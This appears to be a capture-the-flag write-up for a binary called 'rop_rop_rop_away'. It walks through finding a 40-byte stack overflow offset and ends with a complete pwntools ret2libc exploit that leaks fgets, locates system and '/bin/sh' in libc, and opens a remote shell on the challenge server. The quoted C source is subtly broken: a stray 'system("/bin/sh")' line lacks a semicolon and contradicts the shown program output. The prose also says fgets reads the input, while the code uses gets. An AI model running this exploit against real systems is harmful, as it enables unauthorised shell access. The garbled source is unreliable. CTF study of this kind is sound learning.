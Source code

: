 # rop_rop_rop_away

Given an ELF, libc and C source code of the binary. Generally speaking, libc files can determine the addresses of which where the binary is being executed. So they only thing that left is just to determine what is the correct OFFSET in order to exploit the BOF. Then, we can grab the function addresses from the libc file. 

but first, its a good idea to check the file type in order to have a clear visibily of what we are dealing with. 

```bash
file rop_rop_rop_away
rop_rop_rop_away: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0e86dbd76fcb9e38dea86cc8ec5b719140139231, for GNU/Linux 3.2.0, not stripped
```
Its important to know that the file is an 64 bit exectuable, this way we can adapt our final payload in order for our payload to work as expected. Now that we know that we are dealing with a 64 bit binary, its a good idea to check what are the protections that was implemented while compilng this binary.
```bash
checksec rop_rop_rop_away
[*] '/home/osboxes/Desktop/solver/rop_rop_rop_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**NX stands for No eXecute and XD stands for eXecute Disable. Both are same and is a technology used in processors to prevent execution of certain types of code.**  (you can read more about it [here](https://access.redhat.com/solutions/2936741 "here"))



Executing the binary gives the address of fgets function? 

```bash
./rop_rop_rop_away
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0X7FFFF7E477B0
Enter your character name: AAAAAAAAAAAAAAAAAAAA
Welcome AAAAAAAAAAAAAAAAAAAA to BOF wonderland!
Goodbye!
```

Looking back for the C file in order to get  a better visibilty on what is going on.. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
	printf("ROP, ROP, ROP away!\n");
	printf("-----------------------\n");
	system("/bin/sh")
	//Address of gets
	printf("The function fgets() is at %p\n", fgets);

	//The buffer overflow itself
	char name[32];
	printf("Enter your character name: ");
	gets(name);

	//Print out the name
	printf("Welcome %s to BOF wonderland!\n", name);
	printf("Goodbye!\n");
	return 0;
}
```

from the given code, It is not clear how they were getting the fgets function address, but given the fact that they provided a libc file, I am gonna assume that its being extracted from there. 

From the given code, name can take only 32 buffer, and using fgets to get the user input, it's clear that we can do some evil here. After playing with the binary a littile bit, it seems that 40 is our OFFSET. 

```bash
python -c 'print "A"*40' | ./rop_rop_rop_away
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0x7ffff7e477b0
Enter your character name: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA to BOF wonderland!
Goodbye!
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0x7ffff7e477b0
Enter your character name: Welcome  to BOF wonderland!
Goodbye!
Segmentation fault (core dumped)
```


Based on that, we can create our exploit. 

The fact that we are provided with the fgets address makes things easier, just saying.
Based on that we can calculate the libc base address, and from there everything should work like a charm. To do that, we have to substract the fgets address that is given to us when running the binary with the fgets from libc file. We can easily do that using pwntools.


```python
from pwn import *
import re

libc = ELF("./libc.so.6")
p = remote("pwn.ctf.ae",9999)
#elf = ELF("./rop_rop_rop_away")
#p = elf.process()
x = p.recv()
fgets = re.search("0[xX][0-9a-fA-F]+",x) # Regex to get fgets address
#print(x)
if fgets:
	fgets = int(fgets.group(0),16)
	#print(hex(fgets))
libc.address = fgets - libc.symbols['fgets']
```
Now that we calculated the libc base address, we can any all address within the libc file. And in this case, we want to know where [system](https://pubs.opengroup.org/onlinepubs/009604599/functions/system.html "system") is :). 

```python
system = libc.symbols['system']
```
In order to spawn a shell we need to find where /bin/sh is.

```python
bin_sh = libc.search("/bin/sh").next()
```

To pass /bin/sh into system we will need **pop rdi ; ret** we can get that using a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget "ROPGadget")

```bash
ROPgadget --binary rop_rop_rop_away | grep 'pop rdi ; ret'
0x0000000000401273 : pop rdi ; ret
```

It is also a good idea to get **ret** to avoid breaking our payload. We can also get that using ROPgadget. 

```bash
ROPgadget --binary rop_rop_rop_away | grep 'ret'
0x00000000004010eb : add bh, bh ; loopne 0x40115a ; nop ; ret
0x00000000004011fc : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011fd : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011fe : add byte ptr [rax], al ; leave ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401159 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011ff : add cl, cl ; ret
0x00000000004010ea : add dil, dil ; loopne 0x40115b ; nop ; ret
0x00000000004010e9 : add dil, dil ; loopne 0x40115c ; nop ; ret
0x00000000004010e8 : add dil, dil ; loopne 0x40115d ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2ee3 ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010c3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040125c : fisttp word ptr [rax - 0x7d] ; ret
0x0000000000401158 : jrcxz 0x401190 ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401200 : leave ; ret
0x00000000004010ed : loopne 0x401158 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2ee3], 1 ; pop rbp ; ret
0x00000000004011fb : mov eax, 0 ; leave ; ret
0x00000000004010ef : nop ; ret
0x000000000040126c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040126e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401270 : pop r14 ; pop r15 ; ret
0x0000000000401272 : pop r15 ; ret
0x000000000040126b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040126f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401273 : pop rdi ; ret
0x0000000000401271 : pop rsi ; pop r15 ; ret
0x000000000040126d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret ## This is what we want
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
Putting all of it together, We should spawn a shell. Here is the final exploit. 
```python
from pwn import *
import re

libc = ELF("./libc.so.6")
p = remote("pwn.ctf.ae",9999)
#elf = ELF("./rop_rop_rop_away")
#p = elf.process()
x = p.recv()
fgets = re.search("0[xX][0-9a-fA-F]+",x)
#print(x)
if fgets:
	fgets = int(fgets.group(0),16)
	#print(hex(fgets))
libc.address = fgets - libc.symbols['fgets']

system = libc.symbols['system']
bin_sh = libc.search("/bin/sh").next()
pop_rdi = 0x0000000000401273 
ret = 0x000000000040101a
rop_chain = [

	pop_rdi,bin_sh,
	ret,system
	]
print("[+] libc base {}".format(hex(libc.address)))
print("[+] system {}".format(hex(system)))
print("[+] /bin/sh {}".format(hex(bin_sh)))
rop_chain = ''.join([p64(r) for r in rop_chain])
payload = "B" * 40 + rop_chain
print(payload)
p.sendline(payload)
p.interactive()
```


